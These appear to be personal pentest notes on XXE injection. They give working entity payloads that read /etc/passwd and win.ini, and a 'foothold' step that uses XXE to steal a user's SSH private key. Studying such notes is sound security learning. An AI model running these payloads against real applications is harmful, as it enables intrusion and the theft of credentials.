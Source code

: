 # XXE/XEE - XML eXternal Entity
﷽
* XML external entity injection (also known as XXE) is a web security vulnerability that allows an attacker to interfere with an application's processing of XML data.
## detection and usage
* if there are user input fields on the site, an XXE vuln may be present.
* intercept a packet using burp, and look for any mention of XML: such as
  * `<?xml version = "1.0"?>`
* Let's try to read `/etc/passwd` in different ways. 
* For Windows you could try to read `C:\windows\system32\drivers\etc\hosts`.
  * In this first case notice that SYSTEM "file:///etc/passwd" will also work.
    * `<!--?xml version="1.0" ?-->`
    * `<!DOCTYPE foo [<!ENTITY example SYSTEM "/etc/passwd"> ]>`
    * `<data>&example;</data>`
* if using a windows host, verify XXE validity by requesting the `c:/windows/win.ini` file.
* our request becomes something like this (remember to use burp):
```
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///c:/windows/win.ini'>]>
<order>
<quantity>
3
</quantity>
<item>
&test;
</item>
<address>
17th Estate, CA
</address>
</order>
```
* notice the `<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///c:/windows/win.ini'>]>` line, and 
* how we change one of the input fields to `&test;`.
* if, God willing, output of the `win.ini` file is provided then XEE should be there :)
#### foothold
* in my case i discovered a username on the `index.html`, which indicates that I could try grab a SSH key from the user to gain RCE 😏
  * the SSH private key is stored in `file:///c:/users/daniel/.ssh/id_rsa`, where
  * `daniel` is the username of the victim.
  * head over to `ssh.md` for basic pointers :)

